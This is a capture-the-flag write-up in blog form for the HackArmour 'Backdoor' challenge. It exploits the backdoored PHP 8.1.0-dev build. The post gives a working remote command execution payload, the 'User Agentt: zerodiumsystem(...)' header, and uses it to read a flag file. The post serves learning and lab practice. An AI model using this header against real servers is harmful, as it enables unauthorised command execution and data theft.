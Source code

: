 ```yaml
---
title: "Hack Armour CTF Writeups: Backdoor"
date: "2021-06-28 11:00:00+05:30"
description: "This post is a writeup of the `Backdoor` challenge of the HackArmour June '21 CTF."

author: "Siddharth Arumugam"
authorTwitter: "0xMrNight"

tags: ["hackarmour-ctf", "exploits", "php"]
keywords: ["hackarmour", "php-exploit"]

showFullContent: false
---
```


[![The Challenge](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/00-challenge.png)](https://ctf.hackarmour.tech/challenges#Backdoor-10)

This post is a writeup of the `Backdoor` challenge of the HackArmour June '21 CTF.

Link : [104.248.153.17:2500][challenge-link]

## Visiting the website

![the website](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/01-website.png)

We can see that the website uses php version `8.1.0-dev`.

## A little backstory

This version was released with a backdoor in March 2021 when two malicious commits were pushed to to the php source repo. You can read the announcement [here](https://news-web.php.net/php.internals/113838).

## About the Vulnerability

If we add a header to the request `User Agentt: zerodiumsystem('ls')`,
the server executes the command `ls`.

## Exploit

Start Burp Suite and capture the request.

![Captured Request](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/02-burp_req.png)

~~Yes I am on Windows :/~~

We are told the flag is in `/opt/flag.txt`. So let us add the header

```cmd
User Agentt: zerodiumsystem('cat /opt/flag.txt');
```

and forward the request.

![Modified Request](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/03-modified-req.png)

And voilà! We see the flag in the response.

![Exploit Successful](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/04-success.png)

PHP should really check their PRs, don't they? ;)

## External Links

[Exploit DB exploit](https://www.exploit-db.com/exploits/49933)

[PHP's announcement on this exploit](https://news-web.php.net/php.internals/113838)

[challenge-link]: http://104.248.153.17:2500/